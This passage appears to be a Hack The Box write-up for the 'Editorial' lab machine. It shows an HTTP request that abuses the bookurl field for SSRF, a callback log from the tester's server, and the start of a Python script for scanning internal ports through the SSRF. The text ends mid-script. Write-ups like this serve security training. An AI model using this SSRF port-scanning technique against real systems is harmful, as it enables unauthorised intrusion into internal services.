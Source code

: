 #### HTTP Service
![[Pasted image 20240618081128.png]]
The `http://editorial.htb/upload` looks interesting. There's a field name called `bookurl` which accepts an URL and tries to load the image when the `Preview` button is clicked. It sends the following request.
```text
POST /upload-cover HTTP/1.1
Host: editorial.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------30720708513481866454123983682
Content-Length: 372
Origin: http://editorial.htb
Connection: close
Referer: http://editorial.hrb/upload
DNT: 1
Sec-GPC: 1 

-----------------------------30720708513481866454123983682
Content-Disposition: form-data; name="bookurl"

http://10.10.14.133:8000/aaa.jpeg
-----------------------------30720708513481866454123983682

Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream

-----------------------------30720708513481866454123983682--
```

The above request sends a GET request to `http://10.10.14.133:8000/aaa.jpeg`.
```bash
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.49.40 - - [18/Jun/2024 08:07:01] "GET /aaa.jpeg HTTP/1.1" 200 -
```

Looks like it's vulnerable to SSRF and we can read the data by visiting a temporary upload URL.
![[Pasted image 20240618081046.png]]

After this point, I tried to upload a shell but I couldn't execute code on the server. Also the temporary file was deleted between 1-2 minutes. So, I researched on SSRF and found an [article discussing internal port scanning using SSRF called **Cross-Site Port Attack**(XSPA)](https://cyberweapons.medium.com/internal-port-scanning-via-ssrf-eb248ae6fa7b).

Then, I tried Burp's intruder but the scan time was very slow in the community edition. Therefore, I wrote a custom python script to scan for ports and using the temporary file upload link we can grab the information about any possible hits.

```python
import requests

def discoverPorts(port):
    # URL to which the request will be sent
    url = 'http://editorial.htb/upload-cover'

    # Files to be uploaded
    files = {
        'bookfile': ('', b'', 'application/octet-stream')
    }

    # Form data
```